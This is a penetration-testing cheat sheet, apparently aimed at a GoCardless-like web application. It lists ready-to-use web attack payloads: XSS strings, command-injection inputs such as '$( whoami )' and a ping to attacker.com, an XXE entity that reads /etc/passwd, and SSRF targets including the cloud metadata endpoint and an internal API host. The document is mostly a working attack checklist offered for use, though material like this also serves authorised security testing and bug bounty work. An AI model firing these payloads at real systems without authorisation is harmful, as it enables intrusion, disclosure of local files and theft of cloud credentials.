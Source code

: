 ```bash

# Payloads:
<script>alert(document.domain)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)
<iframe src=javascript:alert(1)>

# DOM-based XSS
# Check URL fragments: #<script>alert(1)</script>
```

**Command Injection:**

```bash
# Test in file upload features
# Test in export/download functions
# Test in webhook URLs

# Payloads:
; ls -la
| whoami
` id `
$( whoami )
& ping -c 4 attacker.com &
```

**XXE (XML External Entity):**

```bash
# If application accepts XML input:

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>

# Test in:
# - File uploads (if XML accepted)
# - API requests with XML content-type
# - SOAP endpoints (if any)
```

**SSRF (Server-Side Request Forgery):**

```bash
# Test in:
# - Webhook URL configuration
# - Import from URL features
# - Logo/Image upload from URL
# - API callback URLs

# Payloads:
http://169.254.169.254/latest/meta-data/
http://localhost:80
http://127.0.0.1:8080
http://[::1]:80
http://0.0.0.0:80

# Try accessing internal services:
http://internal-api.gocardless.com
```

---